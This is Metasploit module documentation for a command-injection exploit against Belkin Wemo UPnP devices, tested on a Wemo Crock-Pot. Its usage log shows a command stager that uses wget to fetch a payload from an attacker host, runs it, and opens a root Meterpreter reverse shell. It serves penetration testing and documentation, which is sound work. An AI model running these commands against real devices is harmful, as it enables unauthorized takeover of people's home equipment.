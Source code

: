 ## Intro

This module exploits a command injection in the Belkin Wemo UPnP API via
the `SmartDevURL` argument to the `SetSmartDevInfo` action.

This module has been tested on a Wemo-enabled Crock-Pot, but other Wemo
devices are known to be affected, albeit on a different `RPORT` (49153).

## Setup

You may buy the device on Amazon at <https://www.amazon.com/dp/B00IPEO02C/>.

## Targets

```
Id  Name
--  ----
0   Crock-Pot (Unix In-Memory)
1   Crock-Pot (Linux Dropper)
```

## Options

**RPORT**

Set this to the Wemo device's UPnP port. In our testing, this was 49152
for Crock-Pot and 49153 for other devices.

## Usage

```
msf5 exploit(linux/upnp/belkin_wemo_upnp_exec) > run

[*] Started reverse TCP handler on 10.22.22.4:4444
[+] Wemo-enabled Crock-Pot detected
[*] Using URL: http://0.0.0.0:8080/CKgRyLqQZtBY6
[*] Local IP: http://[redacted]:8080/CKgRyLqQZtBY6
[*] Generated command stager: ["wget -qO /tmp/aOLC8QmRUAMLeQXrxSLP2KuMYqEvD2P http://10.22.22.4:8080/CKgRyLqQZtBY6", "chmod +x /tmp/aOLC8QmRUAMLeQXrxSLP2KuMYqEvD2P", "/tmp/aOLC8QmRUAMLeQXrxSLP2KuMYqEvD2P", "rm -f /tmp/aOLC8QmRUAMLeQXrxSLP2KuMYqEvD2P"]
[*] Regenerated command stager: cp /bin/sh /tmp/aOLC8QmRUAMLeQXrxSLP2KuMYqEvD2P;wget -qO /tmp/aOLC8QmRUAMLeQXrxSLP2KuMYqEvD2P http://10.22.22.4:8080/CKgRyLqQZtBY6;/tmp/aOLC8QmRUAMLeQXrxSLP2KuMYqEvD2P;rm -f /tmp/aOLC8QmRUAMLeQXrxSLP2KuMYqEvD2P
[*] Client 10.22.22.1 (Wget) requested /CKgRyLqQZtBY6
[*] Sending payload to 10.22.22.1 (Wget)
[*] Transmitting intermediate stager...(164 bytes)
[*] Sending stage (1252312 bytes) to 10.22.22.1
[*] Meterpreter session 1 opened (10.22.22.4:4444 -> 10.22.22.1:4607) at 2019-02-12 14:37:37 -0600
[*] Server stopped.

meterpreter > getuid
Server username: uid=0, gid=0, euid=0, egid=0
meterpreter > sysinfo
Computer     : 10.22.22.1
OS           :  (Linux 2.6.21)
Architecture : mips
BuildTuple   : mipsel-linux-muslsf
Meterpreter  : mipsle/linux
meterpreter >
```
